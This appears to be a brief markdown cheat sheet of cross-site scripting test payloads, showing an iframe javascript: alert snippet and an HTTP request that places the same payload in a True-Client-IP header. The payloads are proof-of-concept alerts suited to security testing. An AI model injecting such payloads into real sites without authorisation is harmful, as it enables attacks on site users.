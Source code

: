 # Cross-Site Stripting (XSS)

### Some snippets

```html
<iframe src="javascript:alert(`xss`)">
```


### HTTP-Header XSS

```
GET /some/path HTTP/1.1
Host: 192.168.1.2
...
True-Client-IP: <iframe src="javascript:alert(`xss`)">
...
Connection: close
```